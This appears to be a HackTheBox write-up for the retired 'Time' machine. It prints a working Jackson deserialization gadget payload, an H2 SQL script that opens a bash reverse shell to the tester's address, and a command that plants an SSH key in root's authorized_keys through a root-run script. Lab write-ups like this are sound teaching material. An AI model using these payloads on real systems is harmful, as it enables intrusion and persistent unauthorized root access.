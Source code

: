 ```yaml
---
title: Time Writeup [HTB]
tags: [HackTheBox, Java deserealization]
image: /assets/images/time/time.png
published: true
banner: true
---
```


Time is a Linux based machine that was active since October 24th of 2020 to April 4th of 2021, on this machine we will exploit a vulnerability on Java jackson to get SSRF and ultimate RCE, then we will see that a script that we own is ran by root every x seconds, so we add our ssh public key to root's authorized keys and access as root.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.214
nmap -sC -sV -p 22,80, -Pn -o scan.txt 10.10.10.214

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open, ssh and a webpage, let's check it.

![](/assets/images/time/webpage.png)

The site says "Online JSON beautifier & validator", the validator function says "beta!" so let's put a random json text, `{"two":"two"}`, we get a message: `Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object`

# [](#header-1)Gaining Access

We see that the error is on fasterxml.jackson, after searching for a while we can find a [blog](https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96) that explains some CVEs on jackson, and [here](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) another one that explains how to exploit the vulnerability, so first we create a file called inject.sql with the next content:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.205/54321 0>&1')
```

We start a http server on port 8000, then we send the next chain on the Validate function: `["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.205:8000/inject.sql'"}]`

With that we get a shell in the machine and get access to user.txt

![](/assets/images/time/shell1.png)

# [](#header-1)Privilege Escalation

We upload pspy to the machine to see what is running in the machine, after a short time we see that "/usr/bin/timer_backup.sh" is being ran every x seconds by root.

![](/assets/images/time/pspy.png)

We check that file, and we see that we own it, if we spawn a reverse shell it gets killed after a short time, so let's generate a ssh key, `ssh-keygen -C root@htb.com`, and make that file add our public key to the authorized keys of root, to do that we run `echo 'echo "<public key>" >> /root/.ssh/authorized_keys' >> /usr/bin/timer_backup.sh`, when the file is executed we can connect through ssh as root to the machine with the private key.

![](/assets/images/time/root.png)